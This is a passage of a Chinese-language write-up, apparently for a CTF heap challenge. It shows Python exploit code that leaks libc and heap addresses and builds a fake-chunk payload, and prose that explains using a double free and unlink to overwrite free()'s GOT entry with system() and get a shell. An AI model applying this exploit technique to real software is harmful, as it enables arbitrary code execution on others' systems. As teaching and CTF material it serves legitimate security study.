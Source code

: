     system_sh_addr = leaklibcaddr - 0x3724a8
    print "system_sh_addr: " + hex(system_sh_addr)
    binsh_addr = leaklibcaddr - 0x23e7f1
    print "binsh_addr: " + hex(binsh_addr)
    

同样的如果让某个非使用中 chunk 的fd栏位指向另一个 chunk，并且让note的内容刚好接上，就可以把chunk在堆上的位置给洩漏出来。这样我们就能得到堆的基址。

    
    
    #!python
    notelen=0x10    
    
    new_note("A"*notelen)
    new_note("B"*notelen)
    new_note("C"*notelen)
    new_note("D"*notelen)
    delete_note(2)
    delete_note(0)  
    
    new_note("AAAAAAAA")
    list_note()
    p.recvuntil("0. AAAAAAAA")
    leak = p.recvuntil("\n")    
    
    print leak[0:-1].encode('hex')
    leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
    print hex(leakheapaddr) 
    
    delete_note(0)
    delete_note(1)
    delete_note(3)  
    
    notelen = 0x80  
    
    new_note("A"*notelen)
    new_note("B"*notelen)
    new_note("C"*notelen)   
    
    delete_note(2)
    delete_note(1)
    delete_note(0)
    

通过泄露的libc地址我们可以计算出`system()`函数和`"/bin/sh"`字符串在内存中的地址，通过泄露的堆的地址我们能得到notetable的地址。然后我们构造一个假的note，利用使用double free的漏洞触发unlink，将note0的位置指向notetable的地址。随后我们就可以通过编辑note0来编辑note table了。通过编辑note table我们把note0指向`free()`函数在got表中的地址，把note1指向`"/bin/sh"`在内存中的地址。然后我们编辑note0把`free()`函数在got表中的地址改为`system()`的地址。最后我们执行delete note1操作。因为我们把note1的地址指向了`"/bin/sh"`，所以正常情况下程序会执行`free("/bin/sh")`，但别忘了我们修改了got表中free的地址，所以程序会执行`system("/bin/sh")`，最终达到了我们的目的：

    
    
    #!python
    fd = leakheapaddr - 0x1808 #notetable
    bk = fd + 0x8   
    
    payload  = ""
    payload += p64(0x0) + p64(notelen+1) + p64(fd) + p64(bk) + "A" * (notelen - 0x20)
    payload += p64(notelen) + p64(notelen+0x10) + "A" * notelen
    payload += p64(0) + p64(notelen+0x11)+ "\x00" * (notelen-0x20)  
    